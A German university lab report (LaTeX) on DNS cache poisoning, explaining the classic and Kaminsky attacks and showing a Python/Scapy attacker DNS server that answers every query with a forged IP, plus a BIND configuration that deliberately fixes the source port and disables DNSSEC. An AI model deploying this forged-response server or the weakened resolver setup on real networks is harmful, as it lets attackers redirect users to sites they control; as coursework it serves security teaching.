\documentclass[10pt,a4paper]{article}
\usepackage[utf8]{inputenc}
\usepackage[german]{babel}
\usepackage[T1]{fontenc}
\usepackage{fullpage}
\usepackage{amssymb}
\usepackage{listings}
\usepackage{caption}
\usepackage{color}
\usepackage{amsmath}
\usepackage{graphicx}
\usepackage{nameref}
\usepackage{hyperref}
\usepackage{colortbl}
\usepackage{hhline}

\setlength{\parindent}{0pt}
\setlength{\columnsep}{0.5cm}

% Python colored syntax highlighting
\usepackage{listings}
\usepackage{color}
\usepackage{amsmath}
\definecolor{dark-gray}{RGB}{135,135,135}
\definecolor{light-blue}{RGB}{102,178,255}
\definecolor{light-orchid}{RGB}{210,120,210}
\lstdefinelanguage{python-color}{
 morekeywords={and, as, assert, break, class, continue, def, del, elif, else, except, exec, finally, for, from, global, if, import, in, is, lambda, not, or, pass, print, raise, return, try, while, with, yield, None, True, False, import},
 ndkeywords={self},
 keywordstyle=\color{blue}\bfseries,
 ndkeywordstyle=\color{light-orchid}\bfseries,
 sensitive=false,
 identifierstyle=\color{black},
 basicstyle=\sffamily ,
 morecomment=[l]{\#},
 morecomment=[s]{/*}{*/},
 morecomment=[s]{"""}{"""},
 morecomment=[l][\color{light-blue}]{@},
 morecomment=[s][\color{light-blue}]{"}{"},
 commentstyle=\itshape\color{dark-gray},
 stringstyle=\color{red}\ttfamily,
 tabsize=2,
 columns=fullflexible,
 literate={^}{{$\mspace{-3mu}\hat{\quad}\mspace{-5mu}$}}1
 {<}{$<$}2 
 {>}{$>$}2 
 {<:}{{$<\mspace{-3mu}:$}}2 
 {:>}{{$:\mspace{-3mu}>$}}2
 {+}{$+$ }2 
 {++}{{$+\mspace{-8mu}+$ }}2
 {\~}{{$\mspace{-3mu}\tilde{\quad}\mspace{-3mu}$}}1
 {\~}{$\sim$}1
 {__}{\underline{\hspace{0.5cm}}}1
 {*}{${}^{\ast}$}1 
 {.}{$\mspace{1mu}.\mspace{1mu}$}1
}
\lstset{language=python-color}
\lstset{framexleftmargin=5pt, framextopmargin=5pt, framexbottommargin=5pt, frame=tb, framerule=0pt}
\definecolor{grey}{rgb}{0.9,0.9,0.9}
%\newcounter{nalg}[section] % defines algorithm counter for chapter-level
%\renewcommand{\thenalg}{\thechapter .\arabic{nalg}} %defines appearance of the algorithm counter
%\DeclareCaptionLabelFormat{algocaption}{Algorithm \thenalg} % defines a new caption label as Algorithm x.y

\lstnewenvironment{algorithm}[1][] %defines the algorithm listing environment
{   
    %\refstepcounter{nalg} %increments algorithm number
    %\captionsetup{labelformat=algocaption,labelsep=colon} %defines the caption setup for: it ises label format as the declared caption label above and makes label and caption text to be separated by a ':'
    \lstset{ %this is the stype
        mathescape=true,
        keywordstyle=\color{black}\bfseries\em,
        keywords={,input, output, return, datatype, function, in, if, else, foreach, while, begin, end, for, endfor, from, to, do, loop, print, }, %add the keywords you want, or load a language as Rubens explains in his comment above.        
        #1 % this is to add specific settings to an usage of this environment (for instnce, the caption and referable label)
    }
}
{}

\author{Lukas Jung, Marc Narres-Schulz, Oliver Sänger, Tobias Zeimetz}
\title{Teil III: \\DNS Cache Poisoning}

\begin{document}
\maketitle
\newpage

\section{Einleitung}
Bei der vorliegenden Arbeit handelt es sich um ein Protokoll über eine Teilaufgabe im \glqq Hackerpraktikum\grqq. Als Quelle für diese Ausarbeitung wurde ausschließlich die Literatur~\cite{Blog} aus der Aufgabenstellung verwendet. Die erste Aufgabe bestand in der Programmierung eines eigenen DNS-Servers. Der Server wurde in der Programmiersprache Python geschrieben und als Hilfe wurde das Modul Scapy verwendet. Der Python-Server sollte in der Lage sein, auf eine DNS-Anfrage eine entsprechend korrekt geformte Antwort zu senden. Die IP, mit welcher der Python-Server antwortet, sollte selbst einstellbar sein.

Anschließend sollte ein DNS-Server aufgesetzt und konfiguriert werden. Dieser Server sollte später das Ziel des DNS-Cache-Poisoning-Angriffs sein. Die grundlegende Idee bestand darin, erst alle Sicherheitseigenschaften des Servers gegen diesen einen Angriff zu deaktivieren. Anschließend bestand das Ziel darin den Cache des DNS-Servers (Victim-DNS) zu \glqq vergiften\grqq \ und eine fehlerhaften DNS-Auflösung zu injecten. Ferner war das Ziel, den Cache des Victim-DNS so zu manipulieren, dass alle Anfragen an den in Python selbst geschriebenen DNS-Server (Python-Server oder auch Attacker-DNS) weitergeleitet werden. Dadurch ist es dem Angreifer immer möglich eine andere IP-Adresse für die Auflösung zu wählen. Eine genauer Erläuterung folgt in den nächsten Kapiteln.

Die folgenden Kapitel beschäftigen sich mit den Grundlagen des Angriffs, das heißt wie sollte in der Theorie vorgegangen werden, wie müssen die Abläufe aussehen und was sind die Voraussetzungen für den Angriff. Außerdem wird der Angriff im Detail genauer Erklärt. Der nächste Abschnitt besteht aus der Konfiguration der Server, welche Komponenten verwenden wurden und welche Sicherheitsmaßnahmen deaktiviert wurden. Im letzten Kapitel folgt anschließend eine detaillierte Beschreibung unseres Vorgehens, wie unsere Implementierung des Angriffs funktioniert und welche Tests durchgeführt wurden.

\section{Grundlagen des Angriffs}
In diesem Kapitel wird zunächst der klassische DNS Cache Poisoning Angriff so wie seine Lösung beschrieben. Dabei werden die verschiedenen DNS-Antwort-Typen (A-Record, Additional Record usw.) genauer erläutert. Durch Dan Kaminsky wurde jedoch noch einere weitere und deutlich stärkere Form des Angriffs gefunden. Da das Ziel in diesem Teil des Praktikum darin besteht, den von Dan Kaminsky gefundenen Angriff zu implementieren, wird dieser ebenfalls genauer dargelegt.

\subsection{Klassisches DNS-Cache-Poisoning}
Die klassische Form des DNS-Cache-Poisonings basierte darauf, einem DNS-Server (Victim-DNS) einen gefälschten DNS-Eintrag, in Form eines sogenannten A-Records, zu übermitteln. Ein A-Record ordnet einer Domain eine  IPv4-Adresse zu. Diese Form der Records sind die häufigsten Records im DNS. 

Da ein DNS-Server alle DNS-Anfragen für kurze Zeit in seinem Cache speichert, speichert er sich auch die von einem Angreifer gefälschte Adresse. Stellt ein Benutzer nach dem Poisoning eine DNS-Anfrage an die gleiche Domain, die der Attacker zuvor \glqq injected\grqq\ hat, wird der DNS-Server in seinem Cache die falsche IP finden und diese an den Benutzer übermitteln. Dadurch kann der Angreifer den Benutzer beispielsweise auf eine von ihm kontrollierte Webseite leiten. 

Im folgenden wird anhand eines Sequenzdiagramms genauer dargestellt, wie die klassische Form dieses Angriffs aussieht. Im späteren Verlauf der Arbeit wird eine deutlich effizientere Methode vorgestellt. Dabei werden ebenfalls die Unterschiede und auch Vorteile zur klassischen Methoden herausgestellt. Das Sequenzdiagramm im klassischen Szenario gestaltet sich daher wie in Abbildung~\ref{pic:CDNSCP} zu sehen ist.
\begin{figure}[h]
	\centering
	
\includegraphics[scale=0.45]{Classic_DNS-Cache-Poisoning.png}
	\caption{Klassischer DNS-Cache-Poisoning}
	\label{pic:CDNSCP}
\end{figure}

Im ersten Schritt stellt der Attacker eine DNS-Anfrage für die Domain \emph{www.victim.com} an den Victim-DNS. Informationen wie Paketstrukturen oder auch die Transaktionsnummer sind zu diesem Zeitpunkt noch nicht wichtig und werden daher nicht weiter im Sequenzdiagramm aufgeführt.

Wichtig ist, dass die Seite (kurz vorher) noch nicht angefragt wurde, da der Victim-DNS sonst die IP zu der Seite im Cache gespeichert hat. Dadurch wäre es nicht möglich, eine falsche IP  zu \glqq injecten\grqq\ und der Angriff wäre erfolglos. Ist die Seite nicht im Cache des Victim-DNS eingetragen, wird eine Anfrage an den Root-Server für die Top-Level-Domain (TLD) gestellt, um herauszufinden, welcher Nameserver (Appropriate-DNS), für die angefragte Domain zuständig ist.

Nachdem der Victim-DNS die IP-Adresse des zuständigen NS-Server empfangen hat, stellt er die DNS-Anfrage an den Appropriate-DNS. Dieses Zeitintervall wird vom Angreifer ausgenutzt, um gefälschte DNS-Antworten zu generieren oder viel mehr, an den Victim-DNS zu versenden. Hier ist es wichtig, dass die Transaktionsnummer richtig geraten wird, die Source-IP muss gleich dem zuständigen Appropriate-DNS sein. Weiter muss auch der Name des zuständigen Appropriate-DNS entsprechend gefälscht werden und das Paket muss über die gleichen Ports eingehen, die zum Versenden der Anfrage vom Victim-DNS verwendet wurden. Als letztes muss natürlich auch die DNS-Anfrage (genauer: die Question-Sektion) im Antwortpaket enthalten sein und es muss ein A-Record enthalten sein. Der A-Record enthält die vom Angreifer zuvor selbst gewählte IP-Adresse und und suggeriert dem Victim-DNS somit, dass es sich bei dieser IP um die Adresse der Domain handelt.

Wenn später das \glqq richtige\grqq\ Antwortpaket vom Approriate-DNS an den Victim-DNS gesendet wird, ist das vom Angreifer erstellte Paket bereits beim Victim-DNS angekommen und angenommen. Dadurch wird die Antwort des \glqq richtigen\grqq\ Appropriate-DNS vom Victim-DNS ignoriert. 

Da der Victim-DNS ein gefälschtes A-Record-Paket vom Angreifer erhalten hat, in welchem alle wichtigen Informationen korrekt gefälscht wurden, geht er davon aus, dass es sich beim A-Record um die zur Domain gehörigen IP-Adresse handelt.

Diese Adresse wird in einem letzten Schritt an den Angreifer zurück gesendet und von diesem überprüft. Sollte die zurückgelieferte IP nicht die vom Angreifer gewählte IP sein, so muss der Angriff vom ersten Schritt an wiederholt werde. Da die Domain \emph{www.victim.com} jedoch im Cache gespeichert ist, kann der Angreifer nicht einfach die gleiche Domain anfragen. Er muss also eine andere Subdomain wählen, beispielsweise \emph{cloud.victim.com} oder aber warten, bis der Eintrag aus dem Cache des Victim-DNS entfernt wurde.

Die Hauptaufgabe des Angreifers besteht darin, die korrekte Transaktionsnummer zu raten. Bei alten DNS-Servern (Bind 8) wurde die Transaktionsnummer inkrementiert wenn eine DNS-Anfrage gestellt wurde. Das machte es einem Angreifer leicht, die Transaktionsnummer vorherzusagen.

Damit der Angreifer eine der letzten Transaktionsnummern herausfinden kann, muss er einen eigenen DNS-Server (Attacker-DNS) besitzen. Dieser Attacker-DNS muss als \glqq authoritative\grqq\ für die Domain \mbox{\emph{attacker.com}} eingerichtet sein. Dadurch kann der Angreifer DNS-Anfragen an den Victim-DNS stellen, um die IP-Adresse für die Domain des Angreifers herauszufinden. Da der Attacker-DNS für diese Domain \glqq authoritative\grqq\ ist, wird der Victim-DNS irgendwann bei diesem Server einen A-Record erfragen. Der Attacker muss somit nur auf seinem DNS-Server alle DNS-Anfragen aufzeichnen und die Transaktionsnummer herausfiltern. Dadurch kann er ein gutes Intervall schätzen, in welchem sich die Transaktionsnummer bei der nächsten Anfrage befindet.

Bei aktuelleren BIND-Versionen wurde diese Lücke jedoch geschlossen durch das Anlegen eines Random-Number-Pools. So wurde eine Gleichverteilung der Transaktionsnummern gewährleistet. Diese Verbesserung ist jedoch kein genereller Schutz gegen den Angriff, sondern macht es einem Anreifer lediglich schwerer die Transaktionsnummer vorherzusagen. 

In diesem Fall geht der Angreifer einfach wie folgt vor: Man konnte feststellen das ca. 50 gefälschte Pakete vom Angreifer an den Victim-DNS gesendet werden können, bevor die original Antwort vom Appropriate-DNS ankommt. Der Angreifer muss somit nur automatisiert Anfragen stellen, immer an unterschiedliche Subdomains, und versucht so viele gefälschte Pakete wie möglich an den Victim-DNS zu senden. Das macht er so lange, bis das Cache-Poisonin erfolgreich war. Laut Dan Kaminsky konnte man festellen, dass unter diesen Bedingungen in ca. 10 Sekunden das Poisoning erreicht werden kann.

Wenn ein Benutzer nach erfolgreichem Poisoning, die \glqq injectete\grqq\ Subdomain von \emph{victim.com} anfragt, wird er als Antwort die IP-Adresse eines vom Attacker kontrollierten Servers empfangen.

\subsection{Kaminsky Angriff}
In diesem Abschnitt wird der Angriff von Dan Kaminksy genauer dargelegt. Er fand mehrere Möglichkeiten, wie der Cache eines DNS-Servers \glqq injected\grqq\ werden kann. In diesem Prakikum lag der Schwerpunkt jedoch auf der effektivsten Methode, um den Angriff zu realisieren. 

Während beim klassischen Angriff nur eine Domain, beispielsweise \emph{www.victim.com} vom Victim-DNS fehlerhaft aufgelöst wird, kann beim Angriff von Kaminsky eine gesamte Subdomain gefälscht werden. Dass bedeutet, im klassischen Fall kann der Angreifer immer nur einzelne A-Records beim Victim-DNS \glqq injecten\grqq. Dadurch ist er sehr beschränkt, was die Kontrolle über einzelne Subdomains betrifft. Hat der Angreifer erfolgreich die IP-Adresse für die Domain \emph{www.victim.com} \glqq injected\grqq, muss er erneut die IP-Adresse für \emph{cloud.victim.com}  \glqq injecten\grqq, um auch über diese IP-Auflösung die Kontrolle zu besitzen. 

Der Angriff von Dan Kaminsky basiert darauf, an Stelle eines gefälschten A-Records einen gefälschten NS-Record an den Victim-DNS zu übermitteln. Bei einem NS-Record handelt es sich um eine DNS-Response die angibt, welcher NS-Server für diese Domain zuständig ist. Das Ziel ist es also, dem Victim-DNS die falsche IP-Adresse für einen zuständigen NS-Server zu übermitteln. Da sich der Victim-DNS die NS-Einträge ebenfalls cached, wird er in Zukunft für jede Anfrage, unabhängig der Subdomain, den vom Attacker angegeben DNS-Server anfragen. Als Vorraussetzung für diesen Angriff ergibt sich also, dass der Angreifer einen DNS-Server (Attacker-DNS) unter seine Kontrolle haben muss. 

Das heißt, der Angreifer muss den Attacker-DNS so konfigurieren, dass dieser als authoritative für die Domain $victim.com$ und $attacker.com$ gilt. Den Attacker-DNS als authoritative einzustellen ist kein Problem und wird auch nicht verhindert, da kein Root-Server diesen als authoritative angeben wird. Das Angriffsszenario legt sich somit wie in Abbildung~\ref{pic:DNSCP} dar.
\begin{figure}[h]
	\centering
	
\includegraphics[scale=0.4]{DNS-Cache-Poisoning.png}
	\caption{DNS-Cache-Poisoning}
	\label{pic:DNSCP}
\end{figure} 

Wie auch beim klassischen Angriff, stellt der Attacker eine DNS-Anfrage für die Domain \emph{victim.com} an den Victim-DNS. Informationen wie Paketstrukturen oder auch die Transaktionsnummer sind auch in diesem Szenario noch nicht wichtig und werden daher nicht weiter im Sequenzdiagramm aufgeführt.

Auch bei diesem Angriff ist es wichtig, dass die Seite (kurz vorher) noch nicht angefragt wurde. Ist die Seite nicht im Cache des Victim-DNS eingetragen, wird eine Anfrage an den Root- oder auch Top-Level-Domain-Server (TLD) gestellt, um herauszufinden was der zuständige Nameserver (Appropriate-DNS) für die Angefragt Domain ist.

Nachdem der Victim-DNS die IP-Adresse des zuständigen NS-Server empfangen hat, stellt er die DNS-Anfrage an den Appropriate-DNS. Dieses Zeitintervall wird vom Angreifer ausgenutzt, um gefälschte DNS-Antworten (NS-Records) zu generieren bzw. an den Victim-DNS zu versenden. Hier ist es wichtig, dass die Transaktionsnummer richtig geraten wird, die Source-IP muss gleich dem zuständigen Appropriate-DNS sein. Weiter muss auch der Name des zuständigen Appropriate-DNS entsprechend gefälscht werden und das Paket muss über die gleichen Ports eingehen, die zum Versenden der Anfrage vom Victim-DNS verwendet wurden. Als letztes muss natürlich auch die DNS-Anfrage (genauer: die Question-Sektion) im Antwortpaket enthalten sein und es muss einen NS-Record enthalten, damit der Victim-DNS nochmal den Attacker-DNS nach der IP für \emph{victimg.com} anfragt.

Die Anzahl der Pakete die der Angreifer im Durchschnitt senden muss, bis der Angriff erfolgreicht war, unterscheidet sich nicht vom klassischen Angriff. Die Berechnung der Wahrscheinlichkeit bleibt also in beiden Fällen gleich, da der selbe Schwachpunkt ausgenutzt wird.

Wenn später das \glqq richtige\grqq\ Antwortpaket vom Approriate-DNS an den den Victim-DNS gesendet wird, ist das vom Angreifer erstellte Paket jedoch bereits angekommen und angenommen. Dadurch wird die Antwort des richtigen Appropriate-DNS vom Victim-DNS, wie auch beim ersten Angriff, ignoriert. Da dem Victim-DNS durch das gefälschte Paket mitgeteilt wurde, dass der Attacker-DNS für die IP-Auflösung zuständig ist, sendet der Victim-DNS erneut eine DNS-Anfrage. Jetzt kann der Attacker-DNS mit einer vom Angreifer selbst gewählten IP antworten. In einem letzten Schritt wird die aufgelöste IP jetzt noch vom Victim-DNS zurück an den Anreifer gesendet. Der Angreifer überprüft im Anschluss, ob die Antwort der DNS-Anfrage von \emph{victim.com} die von ihm selbst gewählte IP beinhaltet. Sollte dem nicht der Fall sein, so versucht er den gesamten Vorgang erneut.

Um einen Overload beim DNS-Server zu verhinden, werden alle Angefragten IP-Auflösungen kurzfristig im Cache gespeichert. Daher kann der Angreifer nicht einfach erneut die gleiche Domain anfragen. Um das Caching zu \glqq umgehen\grqq, stellt der Angreifer die Anfrage immer an ein anderes Subdomains als die Male zuvor. Beispielsweise könnte beim ersten Mal die Domain \emph{www1.victim.com} angefragt werden und beim zweiten Mal die Domain \emph{www12.victim.com}. Dadurch wird der Victim-DNS dazu \glqq gezwungen\grqq\ die Anfragen erneut an den NS-Server dieser Domain zu stellen.

Angenommen der Angriff hat nach einigen Versuchen funktioniert und der Cache wurde erfolgreich \glqq injected\grqq\ ergibt sich für einen normalen Benutzer folgendes Szenario: Der Benutzer stellt eine DNS-Anfrage an den Victim-DNS für die Domain \emph{user.victim.com}. Der Victim-DNS hat noch aufgrund des \glqq Poisonings\grqq\ einen Eintrag im Cache, dass der Attacker-DNS authorotative für die Domain sei. Aufgrundessen fragt der Victim-DNS beim Attacker-DNS nach der IP für die angefragte Domain nach. Der Attacker-DNS antwortet darauf mit einer zuvor festgelegten IP die auf eine vom Angreifer kontrollierte Webseite leitet. Der Victim-DNS leitet die IP-Adresse als letzten Schritt an den Benutzer weiter, welcher sich anschließend mit der \glqq falschen\grqq\ Webseite verbindet.

\section{Konfigurationen der Server und Schnittstellen}
Dieses Kapitel beschäftig sich mit der verwendeten Netzwerkstruktur, dem verwendeten System und den zugehörigen Konfigurationen. Zu Beginn wird auf den in Python selbst implementierten DNS-Server eingegangen. Dieser ist auch Bestandteil der weiten Aufgabe gewesen. Anschließend werden die Konfigurationen, des in Ubuntu aufgesetzten DNS-Servers, dargelegt und genauer erläutert.

\subsection{Python DNS-Server}
Die erste Aufgabe bestand darin, einen DNS-Server in Python mit Hilfe von Scapy zu implementieren. Die IP dieses DNS-Servers wird später dazu verwendet, um einen gefälschten NS-Eintrag in den Victim-DNS einzuschleusen. Der dazugehörige Programmcode gestaltet sich folgendermaßen:
\begin{center}
\begin{lstlisting}
import os
from socket import AF_INET, SOCK_DGRAM, socket

from scapy.all import DNS, DNSQR, DNSRR, dnsqtypes

sock = socket(AF_INET, SOCK_DGRAM)
sock.bind((os.environ['ATK_SERVER_IP'], 53))

fixed_ip = os.environ['ATK_FORGED_IP']
\end{lstlisting}
\end{center}
Da DNS-Server primär Anfragen (Requests) über das User Datagram Protocol (UDP) und Port 53 erhalten, liegt der erste Schritt im erstellen und binden eines Datagram Sockets (SOCK\_DGRAM). Dieser Socket ist wie es bei DNS oft üblich ist an den Port 53 gebunden. Die Variable $fixed\_ip$ enthält eine vom Angreifer gewählte IP-Adresse, die bei jeder Anfrage als Ziel-IP gesendet wird.
\begin{center}
\begin{lstlisting}
while True:
    # DNS server that resolves every A record to a fixed A:IPV4 response.
    request, addr = sock.recvfrom(4096)

    dns_request = DNS(request)
    assert dns_request.opcode == 0, dns_request.opcode  # QUERY
    assert dnsqtypes[dns_request[DNSQR].qtype] == 'A', dns_request[DNSQR].qtype
\end{lstlisting}
\end{center}
Die While-Schleife sorgt dafür, dass der Socket niemals geschlossen wird und alle DNS-Anfragen (Querries) mit der zuvor selbst gewählten $\mathit{fixed\_ip}$ beantwortet. In der Variable $\mathit{request}$ sind alle Informationen der DNS-Anfrage enthalten. Die Informationen der Anfragen werden später beim Erstellen der Antwort verwendet, um eine erwartungsgemäße und korrekte Antwort zurück zu liefern. 

Als Nächstes wird mit $\mathit{assert}$ sichergestellt, dass zum Einen der OP-Code Null ist und zum Anderen es sich um eine A-Record-Anfrage handelt. Dadurch dass der OP-Code Null ist, weiß unser Python-Server, dass es sich um eine DNS-Anfrage (Query) handelt. Da das Ziel darin besteht, einem Benutzer (eines Browsers) eine falsche IP zurück zu liefern, muss dieser auch eine IP-Auflösung anfragen. Da es sich bei einer IP-Auflösung um einen sogenannten A-Record handelt, prüft unser DNS-Server ebenfalls den Typ der Anfrage.
\newpage
\begin{center}
\begin{lstlisting}
    response = DNS(
        id=dns_request.id,
        qr=1, opcode=0, aa=1, tc=0, rd=0, ra=0, z=0, rcode=0,  
        qdcount=1, ancount=1,
        nscount=dns_request.nscount, arcount=dns_request.arcount,
        qd=DNSQR(qname=dns_request[DNSQR].qname, qtype='A', qclass='IN'),
        an=DNSRR(rrname=dns_request[DNSQR].qname, type='A', rclass='IN', 
        	rdata=fixed_ip, ttl=86400),
        ns=dns_request.ns,
        ar=dns_request.ar
    )

    sock.sendto(bytes(response), addr)
\end{lstlisting}
\end{center}
Anschließend wird eine Antwort gebildet, welche zu der Angefragen Website die IP beinhaltet bzw. in unserem Fall eine vom Angreifer selbst gewählte IP. Um ein gültiges Antwort-Paket zu bilden, müssen mehrere Optionen (sogennante Flags) korrekt gesetzt sein. Die Optionen werden im Folgenden aus Gründen der Einfachheit in tabellarischer Form erläutert:
\begin{center}
	\setlength\arrayrulewidth{0.6pt}    
    \begin{tabular}{ | p{4.8cm} | p{8.5cm} |}
    \rowcolor[gray]{0.9} 
    \hline
    Flag & Bedeutung \\ \hline
    \hline
    id=dns\_request.id & Hierbei handelt es sich um die Transaktions-ID (TID). Die Antwort muss die gleiche TID besitzen 
    wie die Anfrage.\\ \hline
    qr=1 & Die Flag qr steht für Query/Response. Eine Eins im Paket bedeutet, dass es sich um eine Antwort handelt\\ \hline
    opcode=0 & Durch diese Option wird angegeben, dass es sich um eine Standard-Query handelt\\ \hline
    aa=1 & Da der Attacker-DNS sich als für diese Domain zuständigen DNS-Server ausgibt, muss die \glqq authoritative answer\grqq-Flag auf Eins gesetzt werden. \\ \hline
    tc=0 & Sollten die zu übermittelnden Daten größer als 512 Bytes sein, sind UDP-Pakete zu kleine für eine solche Antwort. In diesem Fall müsste das Bit auf Eins gestellt werden um dem Empfänger des Paketes anzugeben, das es sich um ein TCP-Package handelt.\\ \hline
    rd=0, ra=0 & Die beiden Flags sind zum Angeben das eine Rekursion benötigt (desired) oder verfügbar (available) ist. In unserem Fall beantworten wir jedoch die Anfragen alle mit einer IP, daher kann diese Option auf Null gesetzt werden.\\ \hline
    z=0 & Hierbei handelt es sich um ein reserviertes Bit, welches immer auf Null gesetzt sein muss.\\ \hline
    rcode=0 & Der rcode ist der Antwort Code (Response Code) vom Server. Hier gibt es die Möglichkeit mehr als nur zwei Optionen zu wählen. Hier steht 0 für \glqq ok\grqq, 1 für \glqq format-error\grqq, 2 für \glqq server-failure\grqq, 3 für \glqq name-error\grqq, 4 für \glqq not-implemented\grqq, 5 für \glqq refused\grqq.\\ \hline
    qdcount=1 & Steht für Question Record Count und gibt an nach was gesucht wird. Beinhaltet sind dabei die URL, der Typ der Anfrage und andere Informationen. Da ein DNS-Server immer die Frage im Antwortpaket wiederholt, muss dieser Wert auf Eins gesetzt sein.\\ \hline
    \end{tabular}
\end{center}    
\begin{center}
    \setlength\arrayrulewidth{0.6pt}    
    \begin{tabular}{ | p{4.8cm} | p{8.5cm} |}
    \hline
    ancount=1 & Gibt an wieviele Records in der Antwort mitgeliefert werden. Da wir nur eine falsche IP übertragen wollen steht dieser Wert auf Eins.\\ \hline
    nscount=dns\_request.nscount & Gibt an, wieviele NS-Records im Antwortpaket enthalten sind. Da unser Server nur A-Records zurückliefert, sollte dieser Eintrag immer auf Null stehen.\\ \hline
    arcount=dns\_request.arcount & Gibt an, wieviele NS-Records im Antwortpaket enthalten sind. Auch hier gilt, da unser Server nur A-Records zurückliefert, sollte dieser Eintrag immer auf 0 stehen.\\ \hline
    qd=DNSQR(qname= dns\_request[DNSQR].qname, qtype='A', qclass='IN') & Die Abkürzung qd steht für Query Data. Hier wird lediglich die DNS-Anfrage eingetragen und dass es sich um enen A-Record handelt.\\ \hline
    an & Enthält als Antwort die A-Record-Response mit der gefälschten IP-Adresse die vom Angreifer kontrolliert wird. Eine hohe Time-To-Live (TTL) sorgt dafür, dass der Eintrag möglichst lange im Cache des Victim-DNS bleibt.\\ \hline
    ns, ar & Die letzten beiden Parameter dienen dazu die entsprechenden NS-Records und Additional Records anzugeben.\\
    \hline
    \end{tabular}
\end{center}
In einem letzten Schritt wird das gebildete Paket als Antwort auf die DNS-Anfrage zurück gesendet.

\subsection{Victim DNS-Server}
Aufgrund der Nachvollziehbarkeit und der Reproduzierbarkeit werde im folgenden Abschnitt die Konfigurationen auf dem Victim-DNS genauer erläuert. Als Grundlage für den Victim-DNS wurde ein Ubuntu-Server (Version 14.04) gewählt. Auf diesem Serversystem wurde der standard DNS-Server names BIND eingerichtet. Bei der von uns verwendeten BIND-Version handelt es sich um 9.3.3. Jegliche konfigurationen des DNS-Servers wurde in \emph{/etc/bind/named.conf.options} vorgenommen. Im Folgenden werden die einzelnen Konfigurationen genauer erläutert:
\begin{center}
\begin{lstlisting}
options {
    ...

    query-source address <ip_eth1> port 54;

    dnssec-enable no;

    allow-recursion { any; };
    allow-query { any; };

    auth-nxdomain no;

    listen-on port 53 {
        127.0.0.1;
        <ip_eth1>;
    };

};
\end{lstlisting}
\end{center}
